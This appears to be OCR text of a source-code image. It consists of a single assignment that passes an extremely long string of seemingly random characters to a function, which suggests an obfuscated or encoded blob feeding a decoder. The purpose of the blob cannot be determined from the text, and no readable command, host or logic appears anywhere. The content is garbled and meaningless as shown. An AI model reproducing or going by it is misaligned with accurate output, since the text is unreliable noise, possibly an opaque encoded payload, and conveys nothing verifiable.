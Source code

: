 r=_(e,"+6Hj%Gq3&NbZy_*A**H%Zq%&_y3yA*NkHHZHy*3_6%bj*byK%Ab:GA6NNbIbyAq%Aq_q&HA&&b6yby**3O6&Njj3yN%_**3GpHqbA6&j6_bN%H_GqGAN&H63b3j*y_G*A3&NbNj&ybGy**&86HZ&3qybGA*y3*6TbCZN3sA_Nb3*6yb/jHy%G%&jg&Z%j6_qGAA%q&AqNN%Z_Z%%G%Ay3qL&NbHbqy**Nq66ZG%3yZqyAj&w*&qAF6N&Hby<%__A3H{GNZH_Z*__q*5HbyH%Zq%&_&AGbNjZyy%j*333;G&Zj*y*G3**3N633*j6Z*G;*j3**jb&jbybZo%N_Hq%Aq&qb6%_AjGGuybdj3y&byqjy*q4AH&HNAGN_b%bMAb%jq3U5bycqApqNG_yZ6%A*Hq_A3&yHNqyjA*G3q5jNj6NZ*%G_6q6AA&NH%ZyjANGy%qH*q3&hbNbZyq6AH&GHGq%HN_3G_AG3A6NZGNbjHZy%**l3,&j%6_Hqb*_&&HXk%NNHqZ&%b_b66N_jZyGZ&G6_bqyA*&*_HGAAG&&6&b6j&yjZ%%y_qq&Ab&bZjGZAj&%63NqHZ6Ab*%M_Hq%Aqq&&N*y%F_3qHA%&q3*6Nb*jjy6GG*y6&ZyjbyyG***66ZNGG*&qZrG&Z/3ZjGNy33HAAN*6AZ*G6_6q*GbAZ3y#*b/jU%_Aj&A6ZNq%N*.q3Aq&Z63b3%y_jqZAy*qNjm&NbHyZyA%NHH%ZH%3bFH3ZNNG6_ZG%q_NH%*b3A_Z3GH&bb%&ZN&G5%&jH3N&G_%b/*qyA*NsHDG&Aq&&6qbZg%&Z6_A3&N6Zq%%6yNq6AH&Gw%NNA%ZZGN*Nj_*U3%j;Z3%H*j&:p_&Hj6ZqGH*3&H*AN6jHZZG%*bj367NGHHZGG6*3yyqH**&g6HbHZZ36A3&A6A6HyGj%yqG&*&>jbAGG&*H&_*&_H%ZjAbyAq_)1&Z6Gbb%3&bG_rjN%H6Z6j3_yqj*A3A6_b3%H_bG_Zj*H3*V%NqH&Z&_&&y66bZjN_3q6_G&q6qZGN%HAZq%&_bqb&3H_yNGG_N3_6%NyjN_jZ%%&_qq&Ab*A&q66Z%_qqyA&&b6yby*y&hFNb5j&6ybAj*_OqHq3AZ3bby3qy*qaAH&HNAGN_bqb>Ab%jq3{Gq_N3jZ&&ZHAq*%__33>A*N3HyZ6G6NfqGMjN%HybZ%A&*q%A3%%A&Z%%N*%6*_qN%HNbA%y__6yA*&6H%bGAq_*qN*A*6GbqjNbGbZy%**g37b&%q_&qqAZG%_Zq_jyyZqHA6%G6HZ6ji&*qX*N&b_3qZA*N%HGZ%%3_qq3j_ZAql*N&H6&NNH_y&q#An36X*q6j6Z_qjb__%qyAq&&6bbb*G3663bqj6Z_%bj*_bqMAH&%6%Hy_AqyAA3yj?ZG%A__3Z?GA,Nj6Hb%jqyq_bN6H_bA%_*HqqZ%%*,ZbA%**%qNAqNjH&36bMjNyHG%*q3q&3jyy*%&*A&H63ZhNyGbZ*G *H3HNj%NyZqbbb&HQAZbj3_q6qA&3Z6*b6jG_%G_*3G3ybNHjjy_6HAH&Gy&&jjb_6q%*jj%6Gb_*bbuG3Aj3G6jb&Hy3ZZHq%_%qqA&&&yQG*AB3*6jqyAj&GGAA6&jyyNNjay3Gb_N36!*&AH_&?%3*G3GyN&*j&yN67_Z3Zy3Ahb&6Hb%jqyqA&N%6Zyq%3*%36AjNAHyqbHf_33jAGNjH&byAbN%GzAG&GHjZjj__&q7A_%BH6q%jA_qq_{W3A_6qZNbjbZy%**?3;&j6bZqj*_H3NAA&bH6_H%bA*3ZvjN%N%HNZq%&_bqb&&H_yZGG%&*HqbAy&*6*jj**&qkNb&*&bGG6A3_Gq3Ab&*6yb*%#j%__qb*_6yZ^j*_IqHq&AA&&=Aj*_ZqvAH&%6%H_*%3yRyNZejZ*%j_q3HA_&*&j6Hb%jqy&Gb*y3*6fb%%HyqG&*b3bbn%6*:qNA&&_6NbN%y&y%NAGNZ3bHNNyH*ydGCqNHsZ3%byNq6A*3A6_qHAybNq3A3&6HfbjjZyGqHZ3qbz_ZEjjy3qq*A3N_jCHNbH%Zq%&_&*ybjjAy6GAA%3&qyW6&*HPZH%HGZv3bGjqHYZZ%H_%qqAqa3Zy%*_93j6&bqHqyGqn%,_GqHA%&q6qjb*633U6A%b&6qb&jbyb__NZHbZA%G_GHqa3%bH&Z3%*__H%,%N3_bZj%__AqN-g&Z_&ZNG6&*q%AZN36NZ3%y_06AGqA63&;bNyHyj_AH&%OGbNjN_yqjAZ&y3qHHN&HbZy%y&*6RZ&jj_3qN*_&*6GbHxbN6HjZA%&*o3%>jNNHqZG%N_b3z46N3Hj%&_&qbAy&*HHZb%%_qq&A&6py*qi**G3E3b&&yjAb*%a_HqH3GHGy%GZ_Z3w,_GJHqZN2q_AqZ^AbHH6y%x%_*33ny&_j63!GH_G3&AN%bj6Z*%6*%%jGyAq3*6gbHjH%ZnHNbHbZNj _j3&Mq*b&&OyN*jSye*%&3HyZb6y_jqA*AN{HHbNj3_by}q**H3%eqNqy*qyA*&yH63bu6NjGbA6&_QAb_%HyqHH*_3A_N&b%6_wGjyZqqH6N*j%b6ZqG__&qbAy&yb6GyA%&%:NGqjqyNay*y3A6Gb3jG3&H**G&6ejb6jqZbb*%N_=qHA%&%b<GG_A36e6NH*PNZGHN3y*3bAa&H6%b%*qq&6n&ZHAy6%G*qq_AbqH*N3Z6Gb6jHybGZ*&&Ha_bGjjyqGy*Z3Abi%&yHG%*q3qNN%6__34Aj&_6jq%H6y_3jbyNb0GZ;j__yG_Ay&AWAby%*HbyH%y_*3sRP6__3G&y&&_HHZ%N%H_Zq%&_bqb3_H_ybGy*%3GLNbjNmj_ZH%%_qqqb&Hb_H%_A6&jU3b&HAZyH%bZj__6qjAq&&6Zb*%%_3q3AZ&36ZbZ%H_6A%Nj6qb&jbyb__NZHyy%%j*3Hq*&NyH6ZZ%N*336GyAy3*6BbHjHGqONNbH3Zy%GyAqyZH&&63q&HG_633GqAq3&ObNyHy%&A3&*6_q%jb_36b_!&3HjbG%j_&GyG)*A3HO%Nq&!6jbAGqyq3H*G3HEZbNHqZqGH_bq3Z&Gj_bqyA*&*ybGA*j3&6NbyjyyGGy*3_&3uAb&y6*b*yH3G8&NGjZy%G*%H_yq%Aq&&6&j6*&&061NApZZ3GG*q_tqqAH&%6q6Zb*j*y3G**N6qAyj&ybGy*yH%yHG%*H33_JG3*NZ*jA*3jRAZ&AHyZHG6_o3G}G&NH&bZ%N_b3HAGNlH&3%jZ_NqNZ_3j6GZqjA_&q*y*N-Hq36HnyAGbAy3_H}ZNH6_qGAA3&&_ZZ5jGy&q3ZG&/XAN_jH_jH6A63366b&AZbbGN*%&qI3bb%jbZqC*N&66HA_&y6*ZX%H_%qq*&yN6*Zq%I_Hq%A%66Z3Gj_AqxAANH&N6&bbjyy*qPAH&%GqbbG3yyG*AK&1b%G3*&3GKbNj6_Zbl^_qqNZq&ZHNZN%_NP3HAN&_6NZyAyyAH5__&NHA8*bNjLyHG%*%(3b3%*yAjAA_&*6&b_j_H**qG{*H3%p%H&y*q6A_jy6%bNj*yN6qAA3Z6AG*%k_%qjAb3_i_Z2jjy%6HAZ3A6ybH*ybZGAA6&HANN_H_3y%%Zj_&&qAb&y6*b**q&%6qb%jNNH6NbZ3H^NbGH3yGGb_*jb)GN3A6bHGA*-qyAHb&-3&bGGAgy*qNAV&H6%b%y%qZAA&ZH*q*HZ_33_Z3**Nq6abHj%y%_GNN_&Z3%G_yq&AjN3_qZbjA_Pqj9j%HH3ZGjZ_jG_A3Nj3&-yNbHyZ*%*qN6GZZNbj%Zy%**T3!&6jqy&j&A_&*H8b_j*H&Z_%b_yq*3%Aj&qHHb__y&bA*NhHHZH_Z&j6ZG&HZy*Gjb}3*6jN_HAZAG7N*3N6<G%H3yZ(b__H*6YN*HGyA%_*y_HqGA%&q6&b&_3G6qHAA&%6qb&j&%ZnNNbH%ZN%NZb3G0%&*H6yFbqGHy&Gb*y3yZ*%.*&qj=3NN6_Z*%G_Hjby6Gj*_3y6>NAHAy6Gb*N3_eZN_Hyy6G%3Z!NNbHy_Sb&*H3%4q_AHbZy%**q3*I%NqH&Z*%y_A3F)jN%HbKG%b_yq*D%NHHGZq%yH3qyA*N^GHZ%%3_&qbG6&*H{ZH%%_qq&Ab&yG6Z=%j_%qqA&&b6yb*GV_Hq%Aq&&6bb_j*A8qNA%&q6&bbjy6Zq}h%_*6qbNjbANG*AQ&HHqb_j&yyGyjG&R6Hb%jyH%Gb*A3*66bHjGyqGN*b3y3NbcjHy%G3*&3bgyN*ZNyHGq*q3b(bN_H*_Hq&*%3&;&yGHyZ*G=A%3bBqNZHbB3%**,3HH%bGH&Z_%y*63m6*N%j&y3%b*Mq*G&NHH%Zqq&*qqy^HN1HqZ%G3_&3yrb&*HGZH&A_qq&AbbyHGZ#%3_%qZA&b%6yy0yG_HqbAq_j6bbyj*A.3HA%&y6&ZejyA&q,AHNA6qbAjbyyG*AC&HHqZUj&_HGy6Z&P6Hb%%&_ZGbAG3*HobHj%yqqbCq3y6&br3Ay%Gq*&3*6qN*j&yH3G*q3NQbNy&%yTG**%3Z &NbHyZ*Gb*H&6lqbjHbZy%**p&bB%bHH&Zy%y*S3ePHbGHqZA%b*3q*eyNHH%y_%&*6qyIbNOH_Z%%b8*qbt%&*jZZH%G_qq&jN&yHqZ.%b_%qqA&N.3&b*%&_Hq3Aq&N6bZHj*_sy_A%&q6&byjyy*qLAH*A6qb&jb_oG*A7&H6%66j&ybGyAq&)6Hb%jqjjGb*y3*6jbHj%yqG&GG3yJ*bJjNy%Gq*&3b33N*j yHGG*q3&=bNyNHy!GZ*%3*,&NbHyZ*G**H3*<qN&HbZy%**P&*>%NAH&Zy%y*<3tKHbqHqZ&%b*Gq*DUNHH%y6%&_bqysBNEHHZ%%q*%qbAy&*HMZH%%_qqyA_&y6*ZB%q_Gq3A&Ny&Gb*%7_H&bAq&&6byy%Z_DqHA%&q6&A3jy*WqGAH&%6qZqjbyyG*1H&Z6%bqj&AaGy**&WjHbAjqy&Gb*y3*GAbH%q_6G&*b3yHNb-jHy%Gq;13b?yN*j6yHG%*q&b6oNyH*y;Gb*%3q0&byNGZ*GJ*H3NaqN&Hb*H3b*)3H#%_HH&ZZ%yj03nEq*6HqZ&%b6&q*!6NHH&Mj%&_bqyjZNPHjZ%%qHNqbAy&*H6ZH%%_q3bqj&y6*ZS&b_%qqA&NyH6b*%6_H36Aq&&6byy%3_pqjA%&36&*Hjy*c33AH&36qA%jbyyG*A:Nb6%b3j&y_Gy**&Q6HbGjqy&Gb*y3*6HbHj%_qG&*b3yDAbKj%y%3q*Z3bo_N*j-yHq_*q3&GANyj6y}GH*%3_T&ybG3Z*Gj*HNZ